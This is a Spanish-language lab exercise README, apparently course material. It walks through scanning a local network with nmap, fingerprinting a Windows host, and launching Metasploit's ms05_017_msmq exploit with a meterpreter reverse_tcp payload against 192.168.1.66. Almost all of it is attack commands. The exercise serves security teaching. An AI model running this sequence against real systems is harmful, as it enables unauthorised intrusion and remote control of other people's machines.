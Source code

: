 # Ejericio 1 (Primer Exploit)

## Exploit Activo

Este primer ejercicio consiste en el uso de un primer exploit a partir del escaneo de todos los dispositivos que se encuentran dentro de la red.

### Prerequisistos

* Tener instalado **Metasploit**
* Tener instalado **Nmap**

### Desarrollo

Primero identificamos en que tipo de red nos encontramos (Clase A, B, C) para poder llevar a cabo el escaneo con Nmap.
Ejecutamos el siguiente comando:

```bash
ifconfig
```

Para este caso en especifico, nos situamos dentro de una red tipo C

![ifconfig](imagenes/ifconfig.png)

A continuación realizamos el escaneo de los dispositivos conectados a la red:

```bash
nmap 192.168.1.*
```

Tras la siguiente salida, enfocaremos el ataque al dispositivo con la dirección IP ```192.168.1.66```

![Escaneo Nmap](imagenes/salida_nmap.png)

Para detectar el SO que tiene dicho dispositivo, utilizamos el comando:

```bash
nmap --script smb-os-discovery.nse 192.168.1.66
```
![Tipo de Sistema Operativo](imagenes/tipo_so.png)

Para detectar los servicios que estan corriendo en el dispositivo, ejecutamos:

```bash
nmap -sV 192.168.1.66
```

![Servicios Ejecutandose](imagenes/servicios.png)

Para este caso explotaremos la vulnerabilidad del servicio `msrpc` buscando un exploit.

Primero iniciaremos **Metasploit**

```bash
msfconsole
```

A continuación realizamos la búsqueda del exploit con:

```bash
search msrpc
```

![Search msrpc](imagenes/search_msrpc.png)

Para ver con mas detalle en que consiste este exploit, utilizamos el comando:

```bash
info exploit/windows/dcerpc/ms05_017_msmq
```

![Info msrpc](imagenes/info_msrpc.png)

Para hacer uso del exploit ejecutamos el comando:

```bash
use exploit/windows/dcerpc/ms05_017_msmq
```

Como en muchos de los exploits, es necesario configurar algunas opciones, para conocer a detalle que opciones hay que configurar, despues de ejecutar el comando anterior utilizamos:

```bash
show options
```

Es importante señalar que aquellas opciones cuyo valor sea **yes** en el parametro **Required** son obligatorias de configurar. Para configurar alguna de las opciones utilizamos la sentencia `set` cuya sintáxis es la siguiente:

```bash
set [nombre de la opción] [valor]
```

Para este ejercicio es necesario configurar la opción **rhost**, de tal forma que la instrucción encargada de realizar dicha configuración seria la siguiente:

```bash
set rhost 192.168.1.66
```

Para visualizar aquellos **payloads** que son compatibles con el exploit que estamos utilizando, hacemos uso del comando:

```bash
show payloads
```

Para este ejercicio utilizaremos el payload `windows/meterpreter/reverse_tcp`, especificandolo con el comando:

```bash
set payload windows/meterpreter/reverse_tcp
```
Después de realizar las configuraciones necesarias lanzamos el exploit con el comando:

```bash
exploit
```